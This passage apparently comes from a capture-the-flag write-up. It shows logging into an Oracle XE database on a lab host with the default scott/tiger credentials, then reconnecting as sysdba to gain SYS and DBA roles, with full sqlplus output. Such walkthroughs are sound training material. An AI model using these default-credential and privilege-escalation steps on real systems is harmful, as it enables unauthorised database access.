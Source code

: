 If you followed [this](https://github.com/rapid7/metasploit-framework/wiki/How-to-get-Oracle-Support-working-with-Kali-Linux) correctly, you can login now.

```bash
root@kali:/opt/oracle/instantclient_19_6# sqlplus scott/tiger@10.10.10.82/XE;

SQL*Plus: Release 19.0.0.0.0 - Production on Tue Jun 16 10:40:05 2020
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

ERROR:
ORA-28002: the password will expire within 7 days

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL>
```

This will show the users permission and it seems we doesn't have much permission.

```bash
SQL> select * from user_role_privs;

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT			       CONNECT			      NO  YES NO
SCOTT			       RESOURCE 		      NO  YES NO
```

But we can use `sysdba` which makes as login as system database administrator. Now we got some more Options.

```bash
root@kali:/opt/oracle/instantclient_19_6# ./sqlplus scott/tiger@10.10.10.82/XE as sysdba

SQL*Plus: Release 19.0.0.0.0 - Production on Tue Jun 16 12:08:39 2020
Version 19.6.0.0.0

Copyright (c) 1982, 2019, Oracle.  All rights reserved.

Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from user_role_privs;

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS			       APEX_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_ADMINISTRATOR_ROLE	      YES YES NO
SYS			       AQ_USER_ROLE		      YES YES NO
SYS			       AUTHENTICATEDUSER	      YES YES NO
SYS			       CONNECT			      YES YES NO
SYS			       CTXAPP			      YES YES NO
SYS			       DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS			       DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS			       DBA			      YES YES NO
SYS			       DBFS_ROLE		      YES YES NO

USERNAME		       GRANTED_ROLE		      ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS			       DELETE_CATALOG_ROLE	      YES YES NO
SYS			       EXECUTE_CATALOG_ROLE	      YES YES NO
SYS			       EXP_FULL_DATABASE	      YES YES NO
SYS			       GATHER_SYSTEM_STATISTICS       YES YES NO
```
